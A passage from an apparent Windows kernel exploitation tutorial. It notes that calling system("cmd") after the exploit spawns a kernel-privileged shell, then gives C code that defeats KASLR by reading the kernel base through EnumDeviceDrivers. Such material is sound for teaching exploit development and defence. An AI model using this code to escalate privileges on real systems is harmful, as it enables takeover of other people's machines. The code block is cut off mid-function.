 And run again.  This time, you should see it go through with no crashes!  If you add `system("cmd")` somewhere after the exploit triggers, you'll see a shell spawn with kernel privileges.

## Defeating KASLR
So far we've been circumventing the fact that the kernel's base address changes on each run of the program by running off of a snapshot.  That said, we want our exploit to run on more than just our snapshot, so it's not something we can leave hardcoded in.

Those coming from userland pwn are probably concerned right now.  Finding a leak to bypass ASLR is one of the more difficult tasks in userland exploit development, and can take nearly as much time as finding the initial memory corruption bug.

Luckily for us, finding kernel base address when you have user level code execution in Windows is not hard.  Microsoft doesn't necessarily provide a function to retrieve it, but its also not information they try hard to protect.

There are any number of ways to do this, but most of them involve using undocumented Windows functions.  I always try to use documented functions when possible for stability, so we'll use a known method of obtaining the kernel base through the `EnumDeviceDrivers` function.

> Microsoft classifies all Windows functions into "documented" and "undocumented" categories.  If a function is "documented", it means it is stable and won't ever change.  If a function is "undocumented" it just means it may be changed in the future.

Here is the `EnumDeviceDrivers` kernel base address resolution code.  I've commented where appropriate, but if should be fairly self explanatory.

```c
UINT64 GetKernelBaseAddress() 
{
    ULONG_PTR  pKernelBaseAddress = 0;
    LPVOID    *lpImageBase = NULL;
    DWORD      dwBytesNeeded = 0;

    // First call to EnumDeviceDrivers calculates the amount of space needed to
    // store the results it will have.  It is up to the caller to allocate this
    // space, so this is a necessary step.
    if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
        printf("[-] Failed to retrieve size needed for device driver entries\n");
        return -1;
    }

    // Using the results of the first call to EnumDeviceDrivers, allocate enough 
    // space for EnumDeviceDrivers to store its results in
    if (!(lpImageBase = (LPVOID *)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
        printf("[-] Failed to allocate space for lpImageBase\n");
        if (lpImageBase) 
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    // Make the call to EnumDeviceDrivers, get a list of all loaded drivers in
    // the kernel
    if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
        printf("[-] EnumDeviceDrivers failed: %d", GetLastError());
        if (lpImageBase) 
             HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    // The kernel base is the first field of the results of EnumDeviceDrivers
    pKernelBaseAddress = ((ULONG_PTR *)lpImageBase)[0];
    HeapFree(GetProcessHeap(), 0, lpImageBase);

    printf("[+] Kernel Base Address calculated: %llx\n", pKernelBaseAddress);

```